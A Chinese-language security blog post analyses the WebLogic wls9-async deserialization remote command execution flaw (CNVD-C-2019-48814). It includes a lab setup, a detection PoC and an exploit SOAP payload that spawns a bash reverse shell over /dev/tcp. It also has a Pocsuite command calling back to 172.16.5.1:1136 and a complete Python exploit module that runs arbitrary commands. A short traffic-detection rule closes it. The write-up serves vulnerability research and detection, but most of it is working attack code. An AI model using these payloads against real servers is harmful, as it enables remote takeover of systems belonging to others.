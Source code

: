 ```yaml
---
layout: post
title:  "weblogic 远程命令执行漏洞分析 (CNVD-C-2019-48814)"
date:   2019-8-2 16:18:43
categories: Development
author: co0ontty
categories: 安全开发 漏洞复现 ALL
tags: 安全开发 漏洞复现 ALL
describe: weblogic 远程命令执行漏洞分析
cover: '/assets/img/posts/0d543f9aec58561aabc164648a1809d8.png'
---
```


## weblogic 远程命令执行漏洞  (CNVD-C-2019-48814）

### 漏洞概述

该漏洞存在于 wls9-async 组件，这个组件主要作用是异步通讯服务，攻击者可以向 /_async/AsyncResponseService 路径下传入构造好的恶意 xml 格式的数据，传入的数据在服务器端反序列化时，执行其中的恶意代码，从而可以 getshell。

### 漏洞环境搭建

docker 快速启动：

```bash
docker pull ismaleiva90/weblogic12

docker run -d -p 7001:7001 -p 7002:7002 --restart=always ismaleiva90/weblogic12:latest
```

访问：ip:7001/_async/AsyncResponseService 查看 wls9-async 组件是否启动成功
![avatar](/assets/img/posts/20190426101059760.png)
nmap 检测插件 [weblogic.nse](https://github.com/Rvn0xsy/nse_vuln/tree/master/weblogic/CNVD-C-2019-4814) 

### 漏洞复现

#### Poc：

向/_async/AsyncResponseService发送XMLPoc，连接类型content-type: text/xml：

```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService">
<soapenv:Header>
<wsa:Action>xx</wsa:Action><wsa:RelatesTo>xx</wsa:RelatesTo><work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<void class="POC">
<array class="xx" length="0">
</array>
<void method="start"/>
</void>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body>
<asy:onAsyncDelivery/>
</soapenv:Body>
</soapenv:Envelope>
```

如果 res.status_code == 202 则可以判断存在漏洞

#### Exp：

向/_async/AsyncResponseService发送XMLPoc，连接类型content-type: text/xml：

```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService">   
<soapenv:Header> 
<wsa:Action>xx</wsa:Action>
<wsa:RelatesTo>xx</wsa:RelatesTo>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/ip/port 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body>
<asy:onAsyncDelivery/>
</soapenv:Body></soapenv:Envelope>
```

#### Pocsuite
```bash
pocsuite -r 1000255.py -u 172.16.5.162 --extra-params="{'cmd':'bash -i &gt;&amp; /dev/tcp/172.16.5.1/1136 0&gt;&amp;1'}"
```
```py
#!/usr/bin/env python
# coding: utf-8
from pocsuite.api.poc import register
from pocsuite.api.poc import Output, POCBase
from pocsuite.api.request import req
from pocsuite.lib.core.data import logger
from urlparse import urlparse, urljoin
from pocsuite.lib.core.enums import CUSTOM_LOGGING
import urllib


class TestPOC(POCBase):
    vulID = '97920'  # ssvid
    version = '1.0'
    author = ['co0ontty']
    vulDate = '2019-8-1'
    createDate = '2019-8-1'
    updateDate = '2019-8-1'
    references = ['https://www.seebug.org/vuldb/ssvid-97920']
    name = 'WebLogic wls9-async反序列化远程命令执行'
    appPowerLink = 'https://www.oracle.com/middleware/technologies/weblogic.html'
    appName = 'WebLogic wls9-async'
    appVersion = 'WebLogic 10.*、12.1.3.0'
    vulType = '命令执行'
    desc = '''
        CNVD-C-2019-48814 漏洞主要是利用了 WebLogic 中的 wls9-async 组件，攻击者可以在
/_async/AsyncResponseService 路径下传入恶意的xml格式的数据，传入的数据在服务器端反序列化时，执行其中的恶意代码，实现远程命令执行，攻击者可以进而获得整台服务器的权限。
    '''
    samples = ['']
    install_requires = ['']

    def _attack(self):
        '''verify mode'''
        result = {}
        base_url = self.url
        port = urlparse(base_url).port
        if port is None:
            base_url = self.url + ":7001"
        path = "/_async/AsyncResponseService"
        vul_url = urljoin(base_url, path)

        status_code = req.get(vul_url).status_code

        if status_code == 200:
            if 'cmd' not in self.params:
                logger.log(CUSTOM_LOGGING.SYSINFO,
                           "You can use --extra-params=\"{'cmd': 'xxx'}\" to exec command")
                cmd = 'whoami'
                # cmd = "bash -i &gt;&amp; /dev/tcp/ip/port 0&gt;&amp;1"
            else:
                cmd = self.params['cmd']
            payload = '''
            <soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService">   
            <soapenv:Header> 
            <wsa:Action>xx</wsa:Action>
            <wsa:RelatesTo>xx</wsa:RelatesTo>
            <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
            <void class="java.lang.ProcessBuilder">
            <array class="java.lang.String" length="3">
            <void index="0">
            <string>/bin/bash</string>
            </void>
            <void index="1">
            <string>-c</string>
            </void>
            <void index="2">
            <string>{}</string>
            </void>
            </array>
            <void method="start"/></void>
            </work:WorkContext>
            </soapenv:Header>
            <soapenv:Body>
            <asy:onAsyncDelivery/>
            </soapenv:Body></soapenv:Envelope>
            '''.format(cmd)

            sent_poc_header = {
                "Content-type": "text/xml"
            }
            sent_poc = req.post(vul_url, headers=sent_poc_header, data=payload)
            if sent_poc.status_code == 202:
                result['VerifyInfo'] = {}
                result['VerifyInfo']['URL'] = self.url
            return self.parse_output(result)

    _verify = _attack

    def parse_output(self, result):
        #parse output
        output = Output(self)
        if result:
            output.success(result)
        else:
            output.fail('Internet nothing returned')
        return output


register(TestPOC)
```

### 流量检测

规则：通过检测目标对 /_async/AsyncResponseService 目录的请求，确定目标请求使用存在漏洞的组件，如果在对 /_async/AsyncResponseService 的请求中存在 content-type 为 ‘text/xml’ 的请求且请求内容存在  `<soapenv><soapenv/>` (\<soapenv>用于创建自定义命名空间)则判定存在攻击行为 
